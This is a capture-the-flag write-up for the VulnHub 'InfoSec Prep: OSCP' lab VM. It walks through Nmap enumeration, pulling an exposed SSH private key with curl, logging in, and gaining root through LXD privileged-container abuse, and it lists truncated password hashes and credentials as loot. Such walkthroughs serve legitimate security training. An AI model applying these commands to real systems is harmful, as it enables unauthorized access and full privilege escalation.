


# [[VulnHub] InfoSec Prep: OSCP](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)

**Date**: 10/Aug/2020  
**Categories**: [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash)  

## Overview
This is a writeup for VulnHub VM [`InfoSec Prep: OSCP`](https://www.vulnhub.com/entry/infosec-prep-oscp,508/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.80 scan initiated Mon Jul 20 12:03:57 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/xml/_quick_tcp_nmap.xml 192.168.119.198
Nmap scan report for 192.168.119.198
Host is up, received user-set (0.0022s latency).
Scanned at 2020-07-20 12:04:12 IST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 20 12:04:21 2020 -- 1 IP address (1 host up) scanned in 24.59 seconds

```

2\. We find `80/tcp` to be open. Upon browsing the webpage we see that it looks to be a Wordpress blog with a post named "OSCP Voucher". This posts lists the process to submit the flag and also mentions that there's a user named `oscp` on this machine:  

  

3\. The `gobuster` scan result confirms that this is a Wordpress blog. We see an interesting entry `secret.txt` from `gobuster` scan results and also from the `robots.txt` file:  

  

  

4\. This file has base64 encoded content that we decode to find a SSH private key file:  
``` {.python .numberLines}
curl http://192.168.119.198/secret.txt | base64 -d -

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)
80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))
33060/tcp   socks5
```
#### Files
``` {.python .numberLines}
http://192.168.119.198/secret.txt
http://192.168.119.198/license.txt
```
#### Users
``` {.python .numberLines}
ssh: oscp
wordpress: admin
```

\newpage
## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
``` {.python .numberLines}
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198

```

  

2\. We successfully login and get interactive access of the machine as user `oscp`:  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
oscp@oscp> id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
oscp@oscp>  
oscp@oscp> uname
Linux oscp 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
oscp@oscp>  
oscp@oscp> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 192.168.119.198  netmask 255.255.255.0  broadcast 192.168.119.255
  inet6 fe80::20c:29ff:fee6:a4ab  prefixlen 64  scopeid 0x20<link>
  ether 00:0c:29:e6:a4:ab  txqueuelen 1000  (Ethernet)
  RX packets 389730  bytes 88031188 (88.0 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 297471  bytes 52912167 (52.9 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 694  bytes 64212 (64.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 694  bytes 64212 (64.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
oscp@oscp>  
oscp@oscp> users
root
oscp
```

\newpage
## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
``` {.python .numberLines}
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found

```

  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
``` {.python .numberLines}
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash

```

  

  

  

  


\newpage
## Learning/Recommendation
* The SSH key for a user on the target machine was exposed via web application. Although the file was base64 encoded and listed within `robots.txt`, it doesn't stop an attacker from accessing it.
* The local user was member of the LXD group which allowed to create a privileged container with access to the entire file system. This lead to complete access of files, even those that have been restricted to `root` user only.

## Loot
### Hashes
``` {.python .numberLines}
oscp:$6$k8OEgwaFdUqpVETQ$sKlBojI3IYunw8wEDAyoFdHgVtOPzkDPqksql7IWzpfZXpd3UqP569BokTZ52mDroq/rmJY9zgfeQVmB.........................
root:$6$.wvqHr9ixq/hDW8t$a/dHKimULfr5rJTDlS7uoUanuJB2YUUkh.LWSKF7kTNp4aL8UTlOk2wT8IkAgJ.vDF/ThSIOegsuclEg.........................
```
### Credentials
``` {.python .numberLines}
mysql: wordpress/Oscp12....
wordpress: admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2........
```
### Flags
``` {.python .numberLines}
/mnt/root/root/flag.txt: d73b04b0e696b0945283d...........
```

## References
[+] <https://www.vulnhub.com/entry/infosec-prep-oscp,508/>  
[+] <https://reboare.github.io/lxd/lxd-escape.html>  
[+] <https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation>  
[+] <https://medium.com/@falconspy/infosec-prep-oscp-vulnhubwalkthrough-a09519236025>  
